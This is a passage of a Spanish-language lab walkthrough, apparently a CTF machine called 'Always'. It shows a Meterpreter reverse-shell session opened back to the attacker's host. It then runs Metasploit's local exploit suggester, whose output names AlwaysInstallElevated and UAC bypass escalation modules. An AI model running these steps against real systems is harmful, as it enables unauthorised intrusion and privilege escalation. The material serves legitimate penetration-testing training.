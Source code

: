 ```
[*] Started reverse TCP handler on 192.168.1.146:7777 
[*] Sending stage (177734 bytes) to 192.168.1.163
[*] Meterpreter session 1 opened (192.168.1.146:7777 -> 192.168.1.163:49181) at 2025-03-30 04:37:37 -0400

meterpreter > getuid
Server username: Always-PC\ftpuser
```

Vemos que ya obtuvimos la `shell` con un `meterpreter`.

## Escalate Privileges

Ahora que tenemos un `meterpreter` vamos a utilizar un modulo de `metasploit` llamado `suggester` para ver que vulnerabilidades puede tener esta maquina para poder ser `administradores`.

Vamos a dejar en segundo plano la sesion `Ctrl+Z` y despues le daremos a `Y`, una vez que hayamos dejado em segundo plano la sesion haremos lo siguiente:

```shell
use post/multi/recon/local_exploit_suggester
```

Ahora vamos a configurarlo:

```shell
set SESSION <ID_SESSION>
set SHOWDESCRIPTION true
exploit
```

Info:

```
[*] 192.168.1.163 - Collecting local exploits for x86/windows...
[*] 192.168.1.163 - 198 exploit checks are being tried...
[+] 192.168.1.163 - exploit/windows/local/always_install_elevated: The target is vulnerable.
  This module checks the AlwaysInstallElevated registry keys which 
  dictates if .MSI files should be installed with elevated privileges 
  (NT AUTHORITY\SYSTEM). The generated .MSI file has an embedded 
  executable which is extracted and run by the installer. After 
  execution the .MSI file intentionally fails installation (by calling 
  some invalid VBS) to prevent it being registered on the system. By 
  running this with the /quiet argument the error will not be seen by 
  the user.
[+] 192.168.1.163 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
  This module will bypass Windows UAC by creating COM handler registry 
  entries in the HKCU hive. When certain high integrity processes are 
  loaded, these registry entries are referenced resulting in the 
  process loading user-controlled DLLs. These DLLs contain the 
  payloads that result in elevated sessions. Registry key 
  modifications are cleaned up after payload invocation. This module 
  requires the architecture of the payload to match the OS, but the 
  current low-privilege Meterpreter session architecture can be 
  different. If specifying EXE::Custom your DLL should call 
  ExitProcess() after starting your payload in a separate process. 
  This module invokes the target binary via cmd.exe on the target. 
  Therefore if cmd.exe access is restricted, this module will not run 
  correctly.
[+] 192.168.1.163 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
  This module will bypass Windows UAC by hijacking a special key in 
  the Registry under the current user hive, and inserting a custom 
  command that will get invoked when the Windows Event Viewer is 
  launched. It will spawn a second shell that has the UAC flag turned 
  off. This module modifies a registry key, but cleans up the key once 
  the payload has been invoked. The module does not require the 
  architecture of the payload to match the OS. If specifying 
```